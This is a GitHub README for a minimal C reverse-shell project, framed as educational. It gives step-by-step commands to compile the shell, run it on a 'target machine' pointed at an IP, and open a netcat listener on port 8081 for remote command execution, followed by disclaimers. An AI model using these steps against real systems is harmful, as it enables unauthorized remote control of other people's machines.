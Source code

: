 ﻿# Simple Reverse Shell Example

## Overview

This small yet powerful project provides a practical demonstration of a basic reverse shell implementation in C.

A reverse shell is a fundamental concept in network security and penetration testing, allowing an attacker to gain remote control over a compromised system. This example showcases the mechanics of a minimalistic reverse shell, making it an excellent starting point for understanding the core principles behind such exploits.

## Usage

1. Clone the repository to your local machine:

   ```bash
   git clone https://github.com/DavidVardzelian/RevShellExmp.git
2. Move to folder and compile C code:

   ```bash
   cd RevShellExmp
   gcc ReversR.c -o ReverseR
3. Run the reverse shell on the target machine:
	```bash
	./ReversR.exe <TARGET_IP>
4. Set up the listener on your control machine:
	```bash
	nc -l -p 8081
Once the target machine connects, you will have a remote shell to execute commands.

## Note of Caution

While this example is meant solely for educational purposes and ethical use in controlled environments, it is crucial to acknowledge the potential misuse of such knowledge. The developers and maintainers of this repository discourage any unauthorized or malicious activities using this code and emphasize responsible and legal usage of the knowledge gained from it.
## Disclaimer

This repository and its maintainers are not responsible for any improper usage of the code provided herein. Use this example responsibly and adhere to all applicable laws and regulations in your jurisdiction.
